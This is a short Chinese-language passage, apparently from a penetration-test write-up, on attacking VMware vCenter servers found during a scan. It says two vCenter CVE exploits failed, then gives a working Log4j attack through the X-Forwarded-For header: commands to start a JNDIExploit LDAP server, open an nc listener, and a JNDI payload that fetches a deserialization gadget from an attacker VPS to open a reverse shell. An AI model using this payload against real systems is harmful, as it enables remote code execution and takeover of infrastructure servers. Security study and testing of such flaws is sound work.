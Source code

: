 ![image_lKpb0bidqu.png](assets/1698900866-fb081772d9d5b4d66404ddb761600c61.png)

### Vcenter

在扫描的过程中发现几台 Vcenter，Vcenter 常规有三种打法，分别是

CVE-2021-22005-rce、CVE-2021-21972-rce 和 log4j

前两个测试没成功，log4j 通过 dnslog 探测漏洞存在，vcenter 的漏洞触发点在 xff 头部

```php
java -jar JNDIExploit-1.3-SNAPSHOT.jar -l 1389 -p 8889 -i 0.0.0.0  
nc -lvp 9000  
${jndi:ldap://VPSIP:1389/Deserialization/CommonsBeanutils1/ReverseShell/VPSIP/9000}
```

![4s6zq8tgso_dj3CuwYEQo.png](assets/1698900866-3b09076dd34e688e5471f1b6097c1329.png)
